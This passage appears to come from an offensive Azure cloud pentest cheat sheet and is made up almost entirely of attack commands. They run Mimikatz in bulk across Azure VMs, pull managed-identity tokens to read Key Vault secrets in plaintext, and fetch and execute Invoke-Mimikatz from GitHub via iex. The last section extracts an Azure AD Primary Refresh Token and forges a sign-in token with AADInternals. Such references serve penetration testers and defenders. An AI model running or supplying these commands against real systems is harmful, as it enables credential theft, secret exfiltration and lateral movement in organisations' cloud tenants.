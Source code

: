 ```powershell
Import-module MicroBurst.psm1
Invoke-AzureRmVMBulkCMD -Script Mimikatz.ps1 -Verbose -output Output.txt
```

⧉ Copied!

## KeyVault Secrets

```powershell
# keyvault access token
curl "$IDENTITY_ENDPOINT?resource=https://vault.azure.net&apiversion=2017-09-01" -H secret:$IDENTITY_HEADER
curl "$IDENTITY_ENDPOINT?resource=https://management.azure.com&apiversion=2017-09-01" -H secret:$IDENTITY_HEADER

# connect
PS> $token = 'eyJ0..'
PS> $keyvaulttoken = 'eyJ0..'
PS Az> Connect-AzAccount -AccessToken $token -AccountId 2e91a4fea0f2-46ee-8214-fa2ff6aa9abc -KeyVaultAccessToken $keyvaulttoken

# query the vault and the secrets
PS Az> Get-AzKeyVault
PS Az> Get-AzKeyVaultSecret -VaultName ResearchKeyVault
PS Az> Get-AzKeyVaultSecret -VaultName ResearchKeyVault -Name Reader -AsPlainText
```

⧉ Copied!

## Pass The PRT

> MimiKatz (version 2.2.0 and above) can be used to attack (hybrid) Azure AD joined machines for lateral movement attacks via the Primary Refresh Token (PRT) which is used for Azure AD SSO (single sign-on).

```powershell
# Run mimikatz to obtain the PRT
PS> iex (New-Object Net.Webclient).downloadstring("https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Invoke-Mimikatz.ps1")
PS> Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::cloudap"'

# Copy the PRT and KeyValue
Mimikatz> privilege::debug
Mimikatz> token::elevate
Mimikatz> dpapi::cloudapkd /keyvalue:<KeyValue> /unprotect

# Copy the Context, ClearKey and DerivedKey
Mimikatz> dpapi::cloudapkd /context:<Context> /derivedkey:<DerivedKey> /Prt:<PRT>
```

⧉ Copied!

```powershell
# Generate a JWT
PS> Import-Module C:\Tools\AADInternals\AADInternals.psd1
PS AADInternals> $PRT_OF_USER = '...'
PS AADInternals> while($PRT_OF_USER.Length % 4) {$PRT_OF_USER += "="}
PS AADInternals> $PRT = [text.encoding]::UTF8.GetString([convert]::FromBase64String($PRT_OF_USER))
PS AADInternals> $ClearKey = "XXYYZZ..."
PS AADInternals> $SKey = [convert]::ToBase64String( [byte[]] ($ClearKey -replace '..', '0x$&,' -split ',' -ne ''))
PS AADInternals> New-AADIntUserPRTToken -RefreshToken $PRT -SessionKey $SKey –GetNonce
eyJ0eXAiOiJKV1QiL...
```
